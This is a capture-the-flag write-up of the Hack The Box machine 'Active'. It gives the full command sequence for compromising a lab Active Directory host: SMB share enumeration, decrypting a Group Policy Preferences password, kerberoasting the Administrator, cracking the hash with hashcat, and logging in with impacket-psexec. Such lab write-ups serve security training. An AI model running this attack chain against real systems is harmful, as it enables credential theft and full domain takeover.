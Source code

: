 ```yaml
---
title: "CTF Writeup: Active"
date: 2025-01-09 HH:MM:SS +0000
categories: [CTF, Writeup, hackthebox]
tags: [[Active Directory], [SMB], [Bloodhound], [htb]]
---
```


# Hack The Box - Active

## Description
Active is an easy machine that focusses on Windows Active Directory.<br>

## Information Gathering

### Step 1: Enumeration
We start with running good olde nmap to enumerate the target machine.<br>

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/active_TCP 10.129.92.76
```
![alt text](/assets/screenshots/active/image.png)<br>

We can use enum4linux to gain some insight into the Active Directory environment.
```bash
# enum4linux -a -U 10.129.92.76
```
![alt text](/assets/screenshots/active/image-1.png)<br>
We have access to the Replication SMB share!

We can double check with netexec.
```bash
# netexec smb 10.129.92.76 -u '' -p '' --shares
```
![alt text](/assets/screenshots/active/image-2.png)<br>

## Exploitation

### Step 2: Open SMB server
Now that we know that we have access to the Replication share on the target machine we can connect to this share using smbclient.

```bash
# smbclient "//10.129.92.76/Replication"
```
![alt text](/assets/screenshots/active/image-3.png)<br>

To make it easy for ourselves, we car now recursive download all the files we see here so we can search through them on our kali machine.<br>
```bash
# recurse ON
# mget *
```
![alt text](/assets/screenshots/active/image-4.png)<br>
Now we are able to display all the folders and files we downloaded from the Replication smb share.<br>
![alt text](/assets/screenshots/active/image-5.png)<br>
We can now check each file that seems interesting for us.<br>

We found a hash in the Groups.xml file.

Now we need to find a way to elevate privileges.<br>
![alt text](/assets/screenshots/active/image-6.png)<br>
This seems to be a GPP password. 
Whenever a new Group Policy Preference (GPP) is created, there’s an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as cpassword<br>

To decrypt the password we can use cpp-decrypt.<br>
![alt text](/assets/screenshots/active/image-7.png)<br>

We found the credentials for the SVC_TGS account.<br>
```bash
# netexec smb 10.129.92.76 -u SVC_TGS -p '[Password]'
```
![alt text](/assets/screenshots/active/image-8.png)<br>

### Step 3: Bloodhound
Now that we have found valid credentials for a user account on the target we can use these to enumerate the target and get information about the Active Directory environment.<br>
```bash
# netexec ldap 10.129.92.76 -u SVC_TGS -p '[Password]' --bloodhound --collection ALL --dns-server 10.129.92.76
```
![alt text](/assets/screenshots/active/image-9.png)<br>

If we load this zip file we created with the previous command into bloodhound we can visualize the Active Directory structures.<br>
![alt text](/assets/screenshots/active/image-10.png)<br>

There are a lot of things bloodhound can show us. For this situation we are interested in the keberoasteble users.<br>
![alt text](/assets/screenshots/active/image-11.png)<br>
If we check the kerberoastable users we can see the Administrator!<br>

# Privilege Escalation

Now that we know that the Administrator user is a kerberoastable account we can use the impacket-GetUserSPNs tool to perform the kerberoast attack and get us a hash for the administrator user.
```bash
# sudo impacket-GetUserSPNs -request -dc-ip 10.129.92.76 active.htb/SVC_TGS
```
![alt text](/assets/screenshots/active/image-12.png)<br>

Now that we have a hash for the Administrator user we can crack and crack this hash. First we past it into a file  and second we load the file with a cracking tool such as john the ripper or hashcat.

Let's use hashcat in this situation and use the rockyou.txt file as the password file.
```bash
# sudo hashcat -m 13100 admin.hash /usr/share/wordlists/rockyou.txt --force
```
![alt text](/assets/screenshots/active/image-13.png)<br>
And we got the admin password!

To verify if these credentials work we can use netexec.
```bash
# netexec smb 10.129.92.76 -u Administrator -p '[password]'
```
![alt text](/assets/screenshots/active/image-14.png)<br>

Let's login to this the target using impacket-psexec.
```bash
# impacket-psexec Administrator:"[password]"@10.129.92.76
```
![alt text](/assets/screenshots/active/image-16.png)<br>
Now we can grab the user.txt and root.txt files.

![alt text](/assets/screenshots/active/image-17.png)<br>
NOICE!

## Conclusion
To summarize this machine. It was a machine with open SMB shares that we could misuse to browse the Replication share containing a xml file with a user hash. After we got access to a valid user account we could kerberoast another user with administrator privileges.<br>

## Lessons Learned
- Check the SMB service for any open shares.
- Identify privileged service accounts using kerberoasting.
